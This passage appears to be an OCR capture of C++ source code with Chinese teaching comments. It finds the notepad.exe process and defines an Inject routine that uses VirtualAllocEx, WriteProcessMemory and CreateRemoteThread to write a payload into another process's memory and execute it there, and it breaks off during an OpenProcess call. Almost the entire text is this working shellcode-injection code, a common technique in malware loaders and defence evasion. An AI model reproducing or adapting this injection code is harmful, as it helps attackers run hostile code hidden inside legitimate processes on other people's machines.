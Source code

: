 ```cpp

        pe32.dwSize = sizeof(PROCESSENTRY32);   // 结构大小

        // 检索快照中的信息
            // 判定快照是否为空
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
            // Process32Next()循环检索快照信息  
            // 参数1是快照的句柄，参数2是指向PROCESSENTRY32数据结构的指针
            // lstrcmpiA()比较两个字符，相等返回0，将对应进程的pid返回
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }

        CloseHandle(hProcSnap);

        return pid;
}

int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;

        // VirtualAllocEx()改变一个指定进程的虚拟地址空间中的存区域的状态
        // (进程句柄，起始地址，分配的内存大小，内存分配的类型，分配内存的权限)
        pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);

        // WriteProcessMemory()将数据写到指定进程中的一个内存区域
        // (目标进程，写入的起始地址，写入的数据，写入大小)
        WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);

        // CreateRemoteThread()创建一个在另一个进程的虚拟地址空间中运行的线程
        hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                // 等待0.5秒
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}

int main(void) {

    int pid = 0;
    HANDLE hProc = NULL;
    // 获取目标进程PID
    pid = FindTarget("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        // 打开进程后返回句柄
        // OpenProcess(访问的权限，继承，pid)
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
```